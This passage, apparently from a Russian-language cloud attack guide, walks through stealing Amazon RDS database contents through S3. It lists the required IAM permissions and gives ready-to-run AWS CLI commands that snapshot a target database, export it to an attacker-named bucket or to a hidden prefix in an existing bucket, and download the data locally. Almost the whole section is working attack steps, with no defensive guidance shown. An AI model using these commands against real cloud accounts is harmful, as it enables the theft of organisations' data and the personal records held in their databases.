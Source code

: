 
### 🔍 **Этап 5: RDS Snapshot Attacks (через S3)**

#### Сложный сценарий: RDS → S3 → Download

В реальности прямой доступ к RDS снимкам часто ограничен. Злоумышленники используют S3 как промежуточное хранилище:

##### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "rds:DescribeDBSnapshots",
                "rds:CreateDBSnapshot",
                "rds:StartExportTask",
                "s3:CreateBucket",
                "s3:PutObject",
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": "*"
        }
    ]
}
```

##### Метод атаки:
```bash
# 1. Создание S3 бакета для экспорта
aws s3 mb s3://malicious-rds-exports

# 2. Создание снимка RDS (если нет существующего)
aws rds create-db-snapshot \
    --db-instance-identifier target-db \
    --db-snapshot-identifier malicious-snapshot

# 3. Экспорт снимка в S3
aws rds start-export-task \
    --export-task-identifier malicious-export \
    --source-arn arn:aws:rds:region:account:snapshot:malicious-snapshot \
    --s3-bucket-name malicious-rds-exports \
    --s3-prefix exports/ \
    --iam-role-arn arn:aws:iam::account:role/ExportRole

# 4. Скачивание экспортированных данных
aws s3 sync s3://malicious-rds-exports/exports/ ./local-rds-data/
```

##### Альтернативный метод через существующий бакет:
```bash
# Если есть доступ к существующему бакету
aws rds start-export-task \
    --export-task-identifier malicious-export \
    --source-arn arn:aws:rds:region:account:snapshot:existing-snapshot \
    --s3-bucket-name existing-bucket \
    --s3-prefix malicious-exports/ \
    --iam-role-arn arn:aws:iam::account:role/ExportRole

# Скачивание из существующего бакета
aws s3 cp s3://existing-bucket/malicious-exports/ ./local-data/ --recursive
```
